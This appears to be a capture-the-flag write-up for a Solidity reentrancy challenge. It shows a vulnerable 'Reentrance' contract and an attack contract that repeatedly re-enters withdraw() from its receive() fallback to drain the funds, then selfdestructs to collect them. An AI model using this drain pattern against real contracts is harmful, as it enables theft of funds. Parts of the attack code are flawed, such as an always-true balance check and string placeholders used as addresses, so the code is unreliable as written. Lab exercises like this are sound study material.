

# Challenge 10



```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

Challenge
---
> The goal of this level is for you to steal all the funds from the contract.

  Things that might help:

  - Untrusted contracts can execute code where you least expect it.
  - Fallback methods
  - Throw/revert bubbling
  - Sometimes the best way to attack a contract is with another contract.

Solution
--- 

1. Reentrance let's See First we donate to the designed address, and withraw amount and for receiving ether there is receive function.

2. Reentrance is like calling function over and over time if the function execution done.

Let's Make new Contract

```solidity
contract ReentranceAttack {
    
    address ethernautAddress = "YOUR_INSTANCE_ADDRESS";


    Reentrance public reentranceAttack;

    constructor() payable {
        reentranceAttack = Reentrance(payable(ethernautAddress));
    }

    function donate() public payable {
      // donate to this contract address
        reentranceAttack.donate{value: 1 ether}(address(this));
    }

    receive() external payable {
        // this is the fallback the will be triggered when we receive ether
        if (address(ethernautAddress).balance >= 0) {
            // this allows us to quickly withdraw more funds that we should be able to
            reentranceAttack.withdraw(address(ethernautAddress).balance);
        }
    }

    function withDraw() public {
        // draw from the original contract and trigger our fallback
        reentranceAttack.withdraw(1 ether);
    }

    function selfDestruct() public {
        // get the funds out of the contract
        selfdestruct(payable("YOUR_ADDRESS"));
    }
}
```

2. First we will donate the ether and then call withdraw function after that it will then it receives the ether and make after receiving ether it will excute the conde inside the receive function until contract balance drains out. 

3. Then we will destroy the contract and get the balance of the 
`ReentranceAttack` contract, now submit the instance your challenge will be cleared.